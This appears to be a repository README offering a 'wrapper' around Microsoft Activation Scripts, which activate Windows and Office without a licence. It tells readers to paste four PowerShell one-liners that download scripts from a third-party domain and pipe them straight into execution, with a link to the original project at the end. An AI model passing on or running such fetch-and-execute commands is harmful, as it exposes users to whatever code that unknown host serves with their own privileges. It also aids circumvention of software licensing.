 # Wrapper for Quick MAS Installtion
Skip having to click 1 button, and instantly activate windows

## How to use
Paste one of the following commands into ur PS

### Supported methods
- Hwid(Recommended) (Windows)
> `irm https://mas.illegalesachen.download/hwid | iex`

- Ohook (Office)
> `irm https://mas.illegalesachen.download/ohook | iex`

- KMS38 (Windows)
> `irm https://mas.illegalesachen.download/kms38 | iex`

- KMS (Windows / Office)
> `irm https://mas.illegalesachen.download/kms | iex`

## check out the original creators | learn how it works
https://github.com/massgravel/Microsoft-Activation-Scripts

